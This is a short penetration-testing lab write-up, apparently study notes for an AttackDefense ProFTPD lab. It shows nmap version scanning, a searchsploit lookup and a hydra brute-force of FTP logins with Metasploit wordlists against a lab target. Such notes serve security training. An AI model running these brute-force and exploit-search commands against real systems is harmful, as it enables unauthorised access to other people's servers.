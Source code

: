 # 🔬FTP

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.209.45.3`
>  - **Brute-force** of [ProFTP](http://www.proftpd.org/) server
>  - **Enumeration, nmap brute-force and flags** have been already covered in this [FTP Enum lab](../../../assessment-methodologies/3-enumeration/ftp-enum.md)

```bash
nmap -sV 192.209.45.3
```

```
21/tcp open  ftp  ProFTPD 1.3.5a
```

- Check anonymous login and inherent vulnerabilities

```bash
ftp 192.209.45.3
# anonymous login failed
```

```
ls -al /usr/share/nmap/scripts | grep ftp-*
```

![](linux-attacksassets/image-20230319162253807.png)

```bash
searchsploit ProFTPD
# check exploits for the specific version
```

### Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp
```

![](linux-attacksassets/image-20230319162826368.png)

- Try to connect with FTP and found credentials and retrieve every user's flag:

```bash
ftp 192.209.45.3
```

------

